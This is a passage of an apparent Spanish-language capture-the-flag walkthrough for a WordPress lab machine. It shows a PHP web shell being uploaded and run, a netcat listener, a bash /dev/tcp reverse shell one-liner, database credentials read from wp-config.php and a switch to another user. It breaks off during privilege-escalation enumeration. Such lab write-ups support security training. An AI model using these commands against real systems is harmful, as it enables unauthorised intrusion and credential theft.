 Ahora lo subieremos, Desde el **FileManager** buscamos el icono que nos permite subir archivos:
Una ves cargado en la carpteta **uploads** revisamos recargando la web en esta ruta para que muestre nuestro archivo:
```bash
http://collections.dl/wordpress/wp-content/uploads/
```
### Ejecucion del Ataque
```bash
# Comandos para explotación
http://collections.dl/wordpress/wp-content/uploads/cmd.php?cmd=whoami
```

### Intrusion
Ahora que tenemos ejecucion remota de comandos en el target procedemos a ganar acceso al servidor
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
bash -c 'exec bash -i &>/dev/tcp/IP_TARGE/PORT <&1'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
Uan ves dentro tenemos la configuracion de la base de datos: **( wp-config.php )**

**Hallazgos Clave:**
```bash
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wordpressuser' );

/** Database password */
define( 'DB_PASSWORD', 't9sH76gpQ82UFeZ3GXZS' );

/** Acceso alternativo chocolate:estrella */
```

Para el acceso alternativo usaremos esa contrasena para ver si podemos loguearnos como el usuario **chocolate**
```bash
su chocolate # ( estrella )
```

### Explotacion de Privilegios

###### Usuario `[ chocolate ]`:
Revisando esta ruta:
```bash
/home/chocolate/.mongodb/mongosh
```
